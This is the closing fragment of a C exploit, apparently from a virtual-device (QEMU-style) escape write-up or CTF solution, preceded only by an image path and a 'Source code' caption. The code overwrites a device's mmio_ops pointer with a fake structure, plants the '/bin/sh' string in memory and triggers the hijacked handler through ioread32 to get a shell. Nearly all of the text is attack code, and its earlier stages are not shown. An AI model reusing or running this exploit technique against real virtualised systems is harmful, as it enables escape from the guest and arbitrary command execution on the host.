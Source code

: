 ```c
    // cover the mmio_ops to our fake struct
    iowrite64_1((unsigned long long)(-0xc8),heap_buffer_addr);
    iowrite64_1((unsigned long long)-0xbf8,0x68732f6e69622f);
    // trigger
    ioread32(0);
    return 0;
}
```